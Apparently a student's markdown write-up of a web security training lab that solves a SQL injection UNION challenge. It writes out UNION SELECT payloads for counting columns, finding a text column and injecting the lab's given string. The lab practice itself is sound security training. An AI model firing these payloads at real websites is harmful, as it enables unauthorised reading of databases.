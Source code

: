 # SQL injection UNION attack, finding a column containing text
- SQL injection vulnerability in the product category filter.
- use a UNION attack to retrieve data from other tables.
- first need to determine the number of columns returned by the query
- next step is to identify a column that is compatible with string data
- lab will provide a random value that you need to make appear within the query results
# Goal 
- To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided
# Solving The lab
- find the number of columns like the previous lab with
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
- we find that the db has three columns
- now to finding the column that contain text we brute force like this
```
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
- we find that column 2 has text now to solving the lab
- the lab wants to display the string (Tt7JTN)
```
' UNION SELECT NULL,'Tt7JTN',NULL--
```
- and we solved the lab
